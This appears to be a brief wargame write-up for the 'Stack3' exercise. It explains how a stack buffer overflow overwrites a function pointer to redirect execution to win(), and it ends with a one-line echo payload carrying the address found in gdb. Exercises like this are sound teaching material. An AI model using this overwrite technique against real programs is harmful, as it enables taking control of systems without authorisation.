


# Stack3

in this program we overflow the stackbuffer overflow in order to control the flow of the program .



we can see that if we overflow the buffer we overwrite a ptr which then later used a call for function.
for that first we need to understand where the function win() lies in memory,for that i used ```gdb``` 



we can see that where i used a breakpoint on win() the address is ```0x804842a``` so we can pipe the overflow to the binary like that

```echo -ne '1111111111111111111111111111111111111111111111111111111111111111\x2a\x84\x04\x08' | ./stack3```
